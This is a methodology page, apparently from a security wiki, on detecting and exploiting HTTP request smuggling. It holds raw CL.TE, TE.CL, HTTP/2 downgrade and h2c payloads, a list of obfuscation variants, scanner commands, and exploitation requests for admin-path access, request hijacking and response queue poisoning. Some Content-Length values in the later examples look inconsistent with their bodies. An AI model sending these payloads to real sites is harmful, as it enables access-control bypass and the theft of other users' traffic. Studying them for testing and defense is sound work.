

# HTTP Request Smuggling Detection Methodology & Differential Probing


<!-- TOC_START -->
## Table of Contents
- [Hunt](#hunt)
  - [Identifying Vulnerable Applications](#identifying-vulnerable-applications)
    - [Architecture Reconnaissance](#architecture-reconnaissance)
    - [Basic Detection Tests](#basic-detection-tests)
    - [Advanced Detection Techniques](#advanced-detection-techniques)
  - [Testing Methodology](#testing-methodology)
- [Methodologies](#methodologies)
  - [Tools](#tools)
  - [Testing Techniques](#testing-techniques)
    - [Basic Request Smuggling Test Patterns](#basic-request-smuggling-test-patterns)
    - [Advanced Exploitation Techniques](#advanced-exploitation-techniques)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## Hunt

### Identifying Vulnerable Applications

#### Architecture Reconnaissance

- Look for multi-server architectures with proxies, load balancers, or CDNs
- Identify systems using Nginx, HAProxy, Varnish, or Amazon ALB/CloudFront
- Check for HTTP/2 support with HTTP/1 backend compatibility

#### Basic Detection Tests

1. CL.TE Vulnerability Detection (Time Delay Example):

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Transfer-Encoding: chunked
   Content-Length: 4

   1
   A
   X
   ```

   Send this request, then send a normal request. If the normal request experiences a time delay, CL.TE might be present.

2. TE.CL Vulnerability Detection (Time Delay Example):

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Transfer-Encoding: chunked
   Content-Length: 6

   0

   X
   ```

   Send this request, then send a normal request. If the normal request experiences a time delay, TE.CL might be present.

3. CL.TE Confirmation (Example):

   ```http
   POST / HTTP/1.1
   Host: your-lab-id.web-security-academy.net
   Connection: keep-alive
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 6
   Transfer-Encoding: chunked

   0

   G
   ```

   Send twice. The second response should indicate an unrecognized method like `GPOST`.

4. TE.CL Confirmation (Example):
   (Ensure Burp's "Update Content-Length" is unchecked)

   ```http
   POST / HTTP/1.1
   Host: your-lab-id.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked

   5c
   GPOST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0


   ```

   Send twice. The second request should show the effect of the smuggled `GPOST`.

5. TE.TE Desync Detection (Obfuscation Example):
   (Ensure Burp's "Update Content-Length" is unchecked)

   ```http
   POST / HTTP/1.1
   Host: your-lab-id.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked
   Transfer-encoding: cow

   5c
   GPOST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0


   ```

   Send twice. The second request should show the effect of the smuggled `GPOST`, confirming that one server ignored the obfuscated `Transfer-encoding: cow` header.

#### Advanced Detection Techniques

- **Differential Testing**: Observe response timing differences
- **Time Delays**: Add artificial delays between requests to detect queue interference
- **Obfuscation Testing**: Try various obfuscation techniques:

  ```http
  Transfer-Encoding: xchunked
  Transfer-Encoding: chunked
  Transfer-Encoding : chunked
  Transfer-Encoding: chunked
  Transfer-Encoding: identity, chunked
  ```
  - HTTP/2 Specific: Duplicate `content-length` headers, mixed/malformed pseudo-headers, abnormal stream resets, header/continuation frame splitting.

### Testing Methodology



1. **Initial Assessment**:
   - Test standard CL.TE and TE.CL payloads
   - Try header obfuscation techniques
   - Check for timing inconsistencies

2. **Confirmation Testing**:
   - Send a smuggled request that should trigger a distinct response
   - Test for request queue poisoning by affecting subsequent requests
   - Look for response status code anomalies

3. **Targeted Testing**:
   - Test HTTP/2 downgrade scenarios
   - Check for header oversizing vulnerabilities
   - Test method-specific handling differences


## Methodologies

### Tools

- Burp Suite Professional: HTTP Request Smuggler extension ([_PortSwigger BApp Store_](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646))
- smuggler.py: `python3 smuggler.py -u <URL>` ([_defparam/smuggler_](https://github.com/defparam/smuggler), [_anshumanpattnaik/http-request-smuggling_](https://github.com/anshumanpattnaik/http-request-smuggling))
- tiscripts: Collection of scripts including smuggling checks ([_defparam/tiscripts_](https://github.com/defparam/tiscripts))
- h2csmuggler: `go run ./cmd/h2csmuggler check https://target.com/ http://localhost` ([_assetnote/h2csmuggler_](https://github.com/assetnote/h2csmuggler), [_BishopFox/h2csmuggler_](https://github.com/BishopFox/h2csmuggler) for HTTP/2)
- Turbo Intruder: For advanced/customized request smuggling techniques in Burp Suite.
- Param Miner: For detecting hidden attack surfaces which might be vulnerable.
- h2spec / h3spec: Conformance testing for HTTP/2 and HTTP/3 implementations.

### Testing Techniques

#### Basic Request Smuggling Test Patterns

1. **CL.TE Pattern**:

```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 39
   Transfer-Encoding: chunked

   0

   GET /admin HTTP/1.1
   Host: vulnerable-website.com
```
2. **TE.CL Pattern**:
 ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 4
   Transfer-Encoding: chunked

   5c
   GPOST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0

```
3. **HTTP/2 Downgrade Pattern**:

```http
   :method: POST
   :path: /
   :authority: vulnerable-website.com
   content-length: 0
   content-length: 44

   GET /admin HTTP/1.1
   Host: vulnerable-website.com
```

4. **H2C Upgrade Smuggling Pattern**:
```http
GET / HTTP/1.1
Host: vulnerable-website.com
Connection: Upgrade, HTTP2-Settings
Upgrade: h2c
HTTP2-Settings: AAMAAABkAAQAAP__

GET /admin HTTP/1.1
Host: vulnerable-website.com
```

#### Advanced Exploitation Techniques

1. **Request Hijacking**:

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 50
   Transfer-Encoding: chunked

   0

   GET / HTTP/1.1
   Host: vulnerable-website.com
```
2. **Response Queue Poisoning**:

```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 146
   Transfer-Encoding: chunked

   0

   HTTP/1.1 200 OK
   Content-Type: text/html
   Content-Length: 30

   <html>Fake Response</html>
```
3. **WebSocket Hijacking**:

```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 65
   Transfer-Encoding: chunked

   0

   GET /socket HTTP/1.1
   Upgrade: websocket
   Connection: Upgrade
```


## Related Pages
- [[http-request-smuggling]]
- [[http-request-smuggling-advanced-desync]]
- [[http-request-smuggling-defense-and-remediation]]
- [[smuggler]]
- [[turbo-intruder]]
- [[web-and-bug-bounty]]